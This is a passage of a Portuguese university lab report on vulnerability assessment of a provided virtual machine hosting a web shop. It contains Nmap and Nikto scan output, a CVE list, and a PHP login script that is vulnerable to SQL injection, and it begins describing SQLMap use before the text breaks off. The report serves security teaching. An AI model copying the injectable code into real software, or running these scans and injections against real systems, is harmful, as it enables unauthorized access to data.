\documentclass[10pt,english]{article}

\usepackage{fourier}

\usepackage[]{graphicx}
\usepackage[]{color}
\usepackage{xcolor}
\usepackage{alltt}
\usepackage{listings}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\setlength{\parskip}{\smallskipamount}
\setlength{\parindent}{5ex}
\usepackage{indentfirst}
\usepackage{listings}
\usepackage{setspace}
\usepackage{hyperref}
\hypersetup{
    colorlinks=true,
    linkcolor=auburn,
    filecolor=magenta,      
    urlcolor=blue, urlsize=2em
}

% Set page margins
\usepackage[top=100pt,bottom=100pt,left=68pt,right=66pt]{geometry}

% Package used for placeholder text
\usepackage{lipsum}

% Prevents LaTeX from filling out a page to the bottom
\raggedbottom


\usepackage{fancyhdr}
\fancyhf{} 
\fancyfoot[C]{\thepage}
\renewcommand{\headrulewidth}{0pt} 
\pagestyle{fancy}

\usepackage{titlesec}
\titleformat{\chapter}
   {\normalfont\LARGE\bfseries}{\thechapter.}{1em}{}
\titlespacing{\chapter}{0pt}{50pt}{2\baselineskip}

\usepackage{float}
\usepackage{verbatim}
\floatstyle{plaintop}
\restylefloat{table}

\usepackage[tableposition=top]{caption}


\definecolor{light-gray}{gray}{0.95}

\renewcommand{\contentsname}{Índice}

\begin{document}


\begin{titlepage}
	\clearpage\thispagestyle{empty}
	\centering
	\vspace{2cm}

	
	{\Large  Segurança Informática e nas Organizações \par}
	\vspace{0.5cm}
	{\small Professor: \\
	João Paulo Barraca\par}
	\vspace{4cm}
	{\Huge \textbf{Avaliação e exploração de vulnerabilidades}} \\
	\vspace{1cm}
	\vspace{4cm}
	{\normalsize Hugo Paiva, 93195 \\ 
	             Luís Valentim, 93989
	   \par}
	\vspace{2cm}

    
\includegraphics[scale=0.20]{logo_ua.png}
    
    \vspace{2cm}
    
	{\normalsize DETI \\ 
		Universidade de Aveiro \par}
		
	{\normalsize 16-11-2020 \par}
	\vspace{2cm}
		
	
	\pagebreak

\end{titlepage}
\tableofcontents{}
\clearpage

\section{Introdução}
\par Este trabalho prático foi desenvolvido com o objetivo de explorar conceitos relacionados com a avaliação de vulnerabilidades e o risco e impacto das mesmas.

\par Para isto, foi fornecida uma máquina virtual que, para além de outros serviços, contém uma simples aplicação \textit{web} de uma loja online para servir como alvo de uma série de testes na procura de vulnerabilidades. 

\par O presente relatório visa explicar alguns conceitos relativos à temática e explorar as vulnerabilidades encontradas bem como as ferramentas utilizadas.
\clearpage

\section{Portas de Comunicação}
 \par Com o objetivo de detetar todas as portas de comunicação disponíveis e qual a sua funcionalidade, foi utilizada a ferramenta \textit{\textbf{Nmap}}, desenvolvida para este mesmo fim, a procura e auditoria de segurança numa rede.
 
 \subsection{\textit{Nmap}}
 \par \textit{\textbf{Nmap}}, abreviatura de \textit{Network Mapper}, é uma ferramenta de linha de comandos - apesar de também existirem versões com interfaces gráficas -  \textit{open source} para pesquisa numa rede.

\par O \textit{\textbf{Nmap}} permite a administradores de rede descobrir dispositivos ligados à rede que administram, bem como descobrir portas e serviços disponíveis e vulnerabilidades associadas aos mesmos.

\par O resultado desta ferramenta é uma lista de alvos analisados, com informação adicional em cada um deles, dependendo das opções usadas. De entre as informações apresentadas, está presente a "\textit{interesting ports table}" que lista o \textbf{número das portas}, o \textbf{protocolo} delas, o \textbf{nome do serviço} e o \textbf{estado}.

\par O \textbf{estado} pode ser:
 \begin{itemize}
    \item {\textbf{\textit{Open}}} - Significa que o serviço está a receber conexões/pacotes nesta porta
    
     \item {\textbf{\textit{Filtered}}} - Significa que existe uma firewall, filtro ou outro obstáculo que está a bloquear a porta e portanto não é possível detetar se a porta está \textbf{\textit{Open}} ou \textbf{\textit{Closed}}
     
     \item {\textbf{\textit{Closed}}} - Significa que não existem serviços a receber dados nesta porta, naquele determinado momento
     
     \item {\textbf{\textit{Unfiltered}}} - Significa que a porta responde aos pedidos da ferramenta mas não é possível determinar se estão abertas ou fechadas
   
 \end{itemize}
 
 \par Em alguns casos poderá também existir as combinações \textbf{\textit{open|filtered}} e \textbf{\textit{closed|filtered}} quando não é possível determinar em qual dos dois estados a porta está.
 


\par Esta ferramenta é muito utilizada devido à sua versatilidade e simplicidade o que acabou por levar a uma escolha óbvia para a utilização na primeira exploração de vulnerabilidades, tal como sugerido pelo Professor.

\subsection{Pesquisa com \textit{Nmap}}

\par Após leitura atenta da documentação desta ferramenta, foram feitas múltiplas pesquisas com as múltiplas opções disponibilizadas, sendo que destacamos as seguintes:
\begin{itemize}
    \item {\textbf{Através do protocolo TCP}}
    \newline
    Utilizando a opção \textbf{-A} com o objetivo de detetar sistemas operativos e versões dos mesmo, \textit{traceroute} e deteção de \textit{scripts}:
    
    \begin{lstlisting}
$ sudo nmap -A 192.168.56.101                                                 ~
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-09 00:16 WET
Nmap scan report for 192.168.56.101
Host is up (0.00037s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3p1 Debian 1 (protocol 2.0)
| ssh-hostkey:
|   3072 d1:d0:aa:e5:b9:d2:69:f8:87:ea:18:ab:ba:bc:89:77 (RSA)
|   256 18:22:85:ec:1a:0e:7b:03:b0:64:f5:c5:6d:0c:60:3f (ECDSA)
|_  256 1f:b5:16:67:a1:98:45:35:c4:7f:a9:b6:17:a1:d3:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Debian))
|_http-server-header: Apache/2.4.46 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:42:ED:8E (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.37 ms 192.168.56.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.64 seconds
    \end{lstlisting}
    
    \par Após a análise do resultado da pesquisa, para além da informação dos múltiplos serviços e aplicações com as respectivas versões que estão a correr, que será descrito na próxima secção, é possível verificar que apenas existem duas portas abertas no protocolo \textit{TCP}. A porta \textbf{22} é utilizada para o serviço \textit{OpenSSH} que utiliza o protocolo \textit{SSH} e a porta \textbf{80} para a aplicação \textit{web} que está a ser disponibilizada através de um servidor \textit{Apache}.
    
    \item {\textbf{Através do protocolo UDP}}
    \newline
    Utilizando a opção \textbf{-A} com o objetivo de detetar sistemas operativos e versões dos mesmo, \textit{traceroute} e deteção de \textit{scripts} e com a opção \textbf{-sU} para uma pesquisa no protocolo UDP:
    
    \begin{lstlisting}
$ sudo nmap -A -sU 192.168.56.101                                             
Password:
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-09 00:27 WET
Nmap scan report for 192.168.56.101
Host is up (0.00033s latency).
Not shown: 999 closed ports
PORT   STATE         SERVICE VERSION
68/udp open|filtered dhcpc
MAC Address: 08:00:27:42:ED:8E (Oracle VirtualBox virtual NIC)
Too many fingerprints match this host to give specific OS details
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.33 ms 192.168.56.101

OS and Service detection performed. Please report any incorrect results at 
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1201.51 seconds

    \end{lstlisting}
    
    \par Analisando os resultados na pesquisa sobre o protocolo \textit{UDP} é possível verificar que apenas é reportada uma porta neste protocolo, sendo que a mesma tanto pode estar aberta ou filtrada. A porta em questão é a \textbf{68} onde se encontra o serviço \textit{dhcpc} que, para um conheceder de redes, é fácil de identificar como o protocolo que permite a concessão de endereços IP, máscara de sub-rede, etc.


\end{itemize}




\par Nestas pesquisas com o \textbf{\textit{Nmap}}, opções como \textbf{-sZ}, que permite detetar todas as portas através do protocolo \textbf{\textit{SCTP}}, acabaram por não ser muito relevantes neste trabalho, não estando aqui presentes.


 
 

\begin{comment}
    
    \begin{figure}[!h]
        \centering
        \includegraphics[width=\textwidth]{images/implementation/rolling.png}
        \caption{Função \textit{rollingCigarette()}}
    \end{figure}
    
    \newline
     \begin{itemize}
       \item {\textbf{users}}   - \textit{Array} onde são guardados os utilizadores, sem repetição, durante o tratamento de dados;
       \\
       \item {\textbf{argOpt}}  - \textit{Array Associativo} onde são guardadas as opções e os respetivos argumentos durante o tratamentos de opções;
       \\
       \item {\textbf{userInfo}}- \textit{Array Associativo} onde são guardadas as informações tratadas durante o tratamento de dados.
     \end{itemize}

\end{comment}

\clearpage


\section{Sistema Operativo e Serviços}
\par Através da ferramenta \textit{\textbf{Nmap}}, dos ficheiro de configurações \textit{php}, \textit{info.php} - mencionado posteriormente - e outras informações encontradas durante a pesquisa, foram identificados os seguintes serviços, aplicações e SO da máquina:

 \begin{itemize}
    \item {\textbf{Sistema Operativo}} - \textit{Debian} 5.9.1 
    \par Sistema Operativo base da máquina sobre o qual estão a ser executados todos os outros serviços.
   
   \item {\textbf{Servidor Web}}   - \textit{Apache Version} 2.4.46
   \par Servidor \textit{web} de plataforma aberta que serve o \textit{website} na porta 80.
  
    \item {\textbf{Base de dados}}  - \textit{MariaDB Version} 10.3
    \par Sistema de Gestão de Base de Dados que surgiu como \textit{fork} do \textit{MySQL} com grande foco na segurança. Funciona praticamente como \textit{MySQL} e, por isso, as configurações do \textit{Apache} estão definidas para utilizar \textit{MySQL} na versão 5.0.11, suportada por esta versão da \textit{MariaDB}.

   
   \item {\textbf{\textit{PHP}}}  - \textit{Php Version} 5.6.40
   
   \par Linguagem de desenvolvimento web utilizada na estrutura do site.
   
   \item {\textbf{\textit{OpenSSH}}}  - \textit{OpenSSH Version} 8.3p1 
   \par Ferramenta de conectividade com encriptação de dados associada permitindo o acesso a uma \textit{Secure Shell} através da porta 22.
   
   
   
    \item Associados ao \textit{\textbf{Apache}} e \textit{\textbf{PHP}} existem outros serviços e bibliotecas na máquina como {\textbf{\textit{OpenSSL}}}, {\textbf{\textit{JSON}}}, {\textbf{\textit{Phar}}}, {\textbf{\textit{ZLib}}}, etc.
    
 \end{itemize}
 
 \clearpage

\section{\textit{CVEs}}

\par CVE, OSVDB e SUSE-SU são bases de dados que contêm documentação de vulnerabilidades e exposições comuns. 

\par Tendo em conta a informação recolhida na secção anterior e posteriormente e, com o apoio das bases de dados mencionadas na \hyperref[sec:Bibliografia]{Bibliografia}, foi possível identificar os seguintes CVEs (\textit{Common Vulnerabilities and Exposures}):

\newline
 \begin{itemize}
    \item {\textbf{Apache 2.4.46}}
         \begin{itemize}
         \item {\textbf{OSVDB:3292} - A aplicação web PHP, Advanced Poll, contém uma falha que pode permitir a um usuário malicioso obter informações confidenciais sobre o servidor. O problema é acionado quando uma solicitação é feita ao script misc / info.php que está incluído na instalação padrão. Este script simplesmente executa a função phpinfo () e exibe os resultados. É possível que a falha permita que um utilizador remoto não autorizado visualize informações de caminho do servidor, variáveis de ambiente e números de versão interna das bibliotecas instaladas.
            \par{CVSS Score 5.0  / AI Vulners Score 6.2}
            \par{Affected OS: Não especificado}
         \end{itemize}
    
    \item {\textbf{MariaDB 10.3}}
         \begin{itemize}
            \item {\textbf{CVE-2019-2974} - Vulnerabilidade no produto MySQL Server do Oracle MySQL (componente: Server: Optimizer). As versões com suporte afetadas são 5.6.45 e anteriores, 5.7.27 e anteriores e 8.0.17 e anteriores. A vulnerabilidade facilmente explorável permite que um atacante com poucos privilégios tenha acesso à rede por meio de vários protocolos para comprometer o MySQL Server. Ataques bem-sucedidos dessa vulnerabilidade podem resultar na capacidade não autorizada de causar travamento ou travamento repetido frequentemente (DOS completo) do servidor MySQL. 
            \par{CVSS Score 6.5}
            \par{Affected OS: debian :11}
            \\
            \item {\textbf{CVE-2020-2760} - Vulnerabilidade no produto MySQL Server do Oracle MySQL (componente: InnoDB). As versões com suporte afetadas são 5.7.29 e anteriores e 8.0.19 e anteriores. A vulnerabilidade facilmente explorável permite que um invasor com altos privilégios tenha acesso à rede por meio de vários protocolos para comprometer o MySQL Server. Ataques bem-sucedidos dessa vulnerabilidade podem resultar na capacidade não autorizada de causar travamento ou travamento repetido com frequência (DOS completo) do MySQL Server, bem como atualização não autorizada, inserção ou exclusão de acesso a alguns dados acessíveis do MySQL Server. CVSS 3.0 Base Score 5.5 (impactos de integridade e disponibilidade). Vetor CVSS: (CVSS: 3.0 / AV: N / AC: L / PR: H / UI: N / S: U / C: N / I: L / A: H).
            \par{CVSS Score 6.5}
            \par{Affected OS: debian :11}
            \\
             \item {\textbf{CVE-2020-14576} - Vulnerabilidade no produto MySQL Server do Oracle MySQL (componente: Server: UDF). As versões com suporte afetadas são 5.7.30 e anteriores e 8.0.20 e anteriores. A vulnerabilidade facilmente explorável permite que um atacante com poucos privilégios tenha acesso à rede por meio de vários protocolos para comprometer o MySQL Server. Ataques bem-sucedidos dessa vulnerabilidade podem resultar na capacidade não autorizada de causar travamento ou travamento repetido freqüentemente (DOS completo) do servidor MySQL. CVSS 3.1 Base Score 6.5 (impactos de disponibilidade). Vetor CVSS: (CVSS: 3.1 / AV: N / AC: L / PR: L / UI: N / S: U / C: N / I: N / A: H).
            \par{CVSS Score 6.5}
            \par{Affected OS: debian :11}}
            \\
             \item {\textbf{CVE-2020-13249} - libmariadb / mariadb\_lib.c no MariaDB Connector / C antes de 3.1.8 não valida corretamente o conteúdo de um pacote OK recebido de um servidor. NOTA: embora mariadb\_lib.c tenha sido originalmente baseado no código enviado para MySQL, esse problema não afeta nenhum componente do MySQL com suporte da Oracle.
            \par{CVSS Score 8.8}
            \par{Affected OS: ubuntu : 20.04}
            \\
            \item {\textbf{Improper Access Control / CVE-2019-2805} - Vulnerabilidade no componente MySQL Server do Oracle MySQL (subcomponente: Server: Parser). As versões com suporte afetadas são 5.6.44 e anteriores, 5.7.26 e anteriores e 8.0.16 e anteriores. A vulnerabilidade facilmente explorável permite que um invasor com poucos privilégios tenha acesso à rede por meio de vários protocolos para comprometer o MySQL Server. Ataques bem-sucedidos desta vulnerabilidade podem resultar na capacidade não autorizada de causar um travamento ou travamento repetido freqüentemente (DOS completo) do MySQL Server.
            \par{CVSS Score 6.5}
            \par{Affected OS: debian: 10}
            \\
            \item {\textbf{CVE-2019-2974} - Vulnerabilidade no produto MySQL Server do Oracle MySQL (componente: Server: Optimizer). As versões com suporte afetadas são 5.6.45 e anteriores, 5.7.27 e anteriores e 8.0.17 e anteriores. A vulnerabilidade facilmente explorável permite que um atacante com poucos privilégios tenha acesso à rede por meio de vários protocolos para comprometer o MySQL Server. Ataques bem-sucedidos dessa vulnerabilidade podem resultar na capacidade não autorizada de causar travamento ou travamento repetido freqüentemente (DOS completo) do servidor MySQL.
            \par{CVSS Score 6.5}
            \par{Affected OS: debian : 10}
            \\
             \\
            \item {\textbf{CVE-2020-14539} - As versões afetadas deste pacote são vulneráveis ​​ao CVE-2020-14539. Vulnerabilidade no produto MySQL Server do Oracle MySQL (componente: Server: Optimizer). As versões com suporte afetadas são 5.6.48 e anteriores, 5.7.30 e anteriores e 8.0.20 e anteriores. A vulnerabilidade facilmente explorável permite que um atacante com poucos privilégios tenha acesso à rede por meio de vários protocolos para comprometer o MySQL Server. Ataques bem-sucedidos dessa vulnerabilidade podem resultar na capacidade não autorizada de causar travamento ou travamento repetido freqüentemente (DOS completo) do servidor MySQL.
            \par{CVSS Score 6.5}
            \par{Affected OS: debian : 10}
            \\
            \item {\textbf{CVE-2020-14576} - As versões afetadas deste pacote são vulneráveis ​​ao CVE-2020-14576. Vulnerabilidade no produto MySQL Server do Oracle MySQL (componente: Server: UDF). As versões com suporte afetadas são 5.7.30 e anteriores e 8.0.20 e anteriores. A vulnerabilidade facilmente explorável permite que um atacante com poucos privilégios tenha acesso à rede por meio de vários protocolos para comprometer o MySQL Server. Ataques bem-sucedidos dessa vulnerabilidade podem resultar na capacidade não autorizada de causar travamento ou travamento repetido freqüentemente (DOS completo) do servidor MySQL.
            \par{CVSS Score 6.5}
            \par{Affected OS: debian : 10}
            \\
            \item {\textbf{CVE-2020-13249} - As versões afetadas deste pacote são vulneráveis ​​a CVE-2020-13249 libmariadb / mariadb\_lib.c em MariaDB Connector / C antes de 3.1.8 não valida corretamente o conteúdo de um pacote OK recebido de um servidor. NOTA: embora mariadb\_lib.c tenha sido originalmente baseado no código enviado para MySQL, esse problema não afeta nenhum componente do MySQL com suporte da Oracle.
            \par{CVSS Score 8.8}
            \par{Affected OS: debian : 10}
            \\
            \item {\textbf{CVE-2019-2974} -Vulnerabilidade no produto MySQL Server do Oracle MySQL (componente: Server: Optimizer). As versões com suporte afetadas são 5.6.45 e anteriores, 5.7.27 e anteriores e 8.0.17 e anteriores. A vulnerabilidade facilmente explorável permite que um atacante com poucos privilégios tenha acesso à rede por meio de vários protocolos para comprometer o MySQL Server. Ataques bem-sucedidos dessa vulnerabilidade podem resultar na capacidade não autorizada de causar travamento ou travamento repetido freqüentemente (DOS completo) do servidor MySQL.
            \par{CVSS Score 6.5}
            \par{Affected OS: ubuntu : 19.04}
            \\
            \item {\textbf{Improper Access Control / CVE-2019-2805} - Vulnerabilidade no componente MySQL Server do Oracle MySQL (subcomponente: Server: Parser). As versões com suporte afetadas são 5.6.44 e anteriores, 5.7.26 e anteriores e 8.0.16 e anteriores. A vulnerabilidade facilmente explorável permite que um atacante com poucos privilégios tenha acesso à rede por meio de vários protocolos para comprometer o MySQL Server. Ataques bem-sucedidos dessa vulnerabilidade podem resultar na capacidade não autorizada de causar travamento ou travamento repetido freqüentemente (DOS completo) do servidor MySQL.
            \par{CVSS Score 6.5}
            \par{Affected OS: ubuntu : 19.04}
            \\
            \end{itemize}
     \item {\textbf{PHP 5.6.40}}
         \begin{itemize}
            \item {\textbf{CVE-2019-9641} - Um problema foi descoberto no componente EXIF ​​no PHP antes de 7.1.27, 7.2.x antes de 7.2.16 e 7.3.x antes de 7.3.3. Há uma leitura não inicializada em exif\_process\_IFD\_in\_TIFF.
            \par{CVSS Score 7.5}
            \par{Affected OS: debian : 8.0  / debian : 9.0}
            \\
            \end{itemize}
            
    \item {\textbf{OpenSSH 8.3p1}}
         \begin{itemize}
         \item {\textbf{CVE-2020-15778} - O scp em OpenSSH 8.3p1 permite a injeção de comando na função de toremote em scp.c, conforme demonstrado por caracteres de crase no argumento de destino. NOTA: o fornecedor declarou que omitiu intencionalmente a validação de "transferências anômalas de argumentos" porque isso poderia "ter uma grande chance de interromper os fluxos de trabalho existentes".
            \par{CVSS Score 7.8}
            \par{Affected OS: Não especificado}
         \end{itemize}
            
 \end{itemize}
 
\par Para além destes exemplos que se consideraram os mais importantes, visto estarem ligados a serviços com um papel muito grande no funcionamento da máquina, existem ainda um grande número de CVEs associado às livrarias de suporte a \textit{JSON}, \textit{XML}, expressões regulares e compressão bem como na ferramenta \textit{MySQL/MariaDB}.

\par Não foram encontrados nenhuns \textit{public exploits} para validar a existência destas vulnerabilidades, com excepção da vulnerabilidade relativa ao \textit{Apache} que foi executada com sucesso ao aceder ao endereço do ficheiro \textit{info.php}. 

 \clearpage

\section{Vulnerabilidades}

\subsection{\textit{Nikto}}
\par \textbf{\textit{Nikto}} É uma ferramenta de avaliação de servidores web com capacidade de encontrar ficheiros \textit{default} e inseguros, programas e configurações.

\par Funciona de forma dissimulada, ou seja, não foi desenhada como uma ferramenta anónima mas sim para fazer testes para a verificação de vários potenciais problemas no mínimo tempo possível.

\subsubsection{Pesquisa com \textit{Nikto}}

    \textbf{Scan básico}

    \par Verificando a documentação  desta  ferramenta, foi feita uma pesquisa ao \textit{host} dado através da opção \textbf{-h} com a porta predefinida \textbf{80} no protocolo TCP:

    \begin{lstlisting}
$ nikto -h 192.168.56.102                                                   
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.102
+ Target Hostname:    192.168.56.102
+ Target Port:        80
+ Start Time:         2020-11-11 02:55:02 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.46 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to 
protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render 
the content of the site in a different fashion to the MIME type
+ Cookie level created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-630: IIS may reveal its internal or real IP in the Location header via a request to 
the /images directory. The value is "http://127.0.0.1/images/".
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ Uncommon header 'content-disposition' found, with contents: filename="downloads"
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /admin/: Directory indexing found.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /downloads/: Directory indexing found.
+ OSVDB-3092: /downloads/: This might be interesting...
+ /info.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /info.php: PHP is installed, and a test script which runs phpinfo() was found. 
This gives a lot of system information.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3268: /images/?pattern=/etc/*&sort=name: Directory indexing found.
+ /info.php?file=http://cirt.net/rfiinc.txt?: Output from the phpinfo() function was found.
+ OSVDB-5292: /info.php?file=http://cirt.net/rfiinc.txt?: RFI from RSnake's
list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ 7535 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2020-11-11 02:55:09 (GMT0) (7 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
    \end{lstlisting}
    
    \par \textbf{Através dos resultados desta pesquisa foi possível investigar múltiplos potenciais problemas:}
    
    \begin{itemize}
    
    \item {\textbf{Clickjacking}}
    
    \par A falta do \textit{header} \textit{X-Frame-Options}, que indica se um \textit{browser} deve ou não permitir mostrar uma página dentro de um \textit{frame} ou \textit{iframe} permite a um atacante utilizar o \textit{website} em questão \textit{embedded} em outro \textit{website}, levando o utilizador a aceder a uma página \textit{web} maliciosa, quando aparenta ser a original
    
     \item {\textbf{XSS}}
    
    \par A falta do \textit{header} \textit{X-XSS-Protection}, que impede o carregamento de páginas ao detectar ataques \textit{XSS} leva à possibilidade de executar um ataque deste tipo (explorado mais à frente)
    
     \item {\textbf{Directórios}}
    
    \par De entre os directórios apresentados:
    
    \begin{itemize}
        \item \textit{/admin/}
        \item \textit{/images/}
        \item \textit{/downloads/}
    \end{itemize}
    
    \par Apenas o último apresentou informações interessantes:
    

    \begin{itemize}
       
    \item {Ficheiro \textit{/admin/login.php.txt}}
   
    \par Foi encontrado o ficheiro \textit{login.php.txt} com o que se supõe ser o \textit{script} \textbf{php} do \textit{login}:
    
    \begin{lstlisting}
       <?php
include 'connection.php';

$sql    = "SELECT * FROM tblMembers WHERE username='" . $_POST['usermail'] . "';";
$result = mysql_query($sql, $link);

if (!$result) {
    echo "DB Error, could not query the database\n";
    echo 'MySQL Error: ' . mysql_error();
    exit;
}

if (mysql_num_rows($result) < 1) {
    header('Location: /account.php?login=user') ;
}
else {
    $sql    = "SELECT session FROM tblMembers WHERE username='" . $_POST['usermail'] . "' 
    AND password='" . $_POST['password'] . "';";
    $result = mysql_query($sql, $link);
    if (mysql_num_rows($result) == 0) {
        header('Location: /account.php?login=pass') ;
    }
    else {
        $row =  mysql_fetch_assoc($result);
        setcookie("SessionId", $row['session']);
        header('Location: /account.php?login=success');
    }
}
?>
    \end{lstlisting}
    
    \par A partir deste \textit{script} foi facilitada a execução de vulnerabilidades referentes a \textit{SQL Injection}, referidas posteriormente.

    \end{itemize}
    
    \end{itemize}
    
    \par Foi também testada a opção do \textit{\textbf{Nikto}} \textbf{-C all} para verificar todos os possíveis diretórios mas sem nenhum resultado novo.
    
    \par Para além destes potenciais problemas, os ficheiros \textit{info.php} e \textit{config.php} encontrados através do \textit{Nikto} foram fulcrais para obter mais informação do sistema.


\subsection{\textit{SQL Injection}}

\par Técnica caracterizada pela injeção de código \textit{SQL} em áreas de \textit{input}, de forma a executar comandos maliciosos com capacidade de recolha/alteração e/ou eliminação de dados, de modo dissimulado.

\subsubsection{\textit{SQLMap}}

\par \textbf{\textit{SQLMap}} é uma ferramenta, open-source, de deteção e exploração de falhas que podem ser aproveitadas para realizar \textit{SQL Injections}. Muito poderosa enquanto ferramenta de detecção e extremamente diversa a nível de opções para para penetrar e explorar as vulnerabilidades encontradas, é uma escolha óbvio para este trabalho.


\subsubsection{Utilização}

\begin{itemize}
    \item {\textbf{\textit{Login} com o utilizador \textit{admin}}}
    
    \par Analisando a página \textit{web}, para além de todas as as funcionalidades relativas ao \textit{Blog} e venda de \textit{Boards} e \textit{Sofware}, existe uma zona de acesso à conta. Tendo em conta a suposição do \textit{scrit} \textit{php} de \textit{login} encontrado previamente, foram feitos múltiplos testes de \textit{SQL Injection} neste formulário.
    
    \par Desde logo foram reparadas as verificações que o \textit{browser} realiza para se assegurar que é introduzido um email no formulário. Uma simples solução encontrada foi a substituição do tipo de \textit{input} para \textit{text}:
    
    \begin{figure}[!h]
        \centering
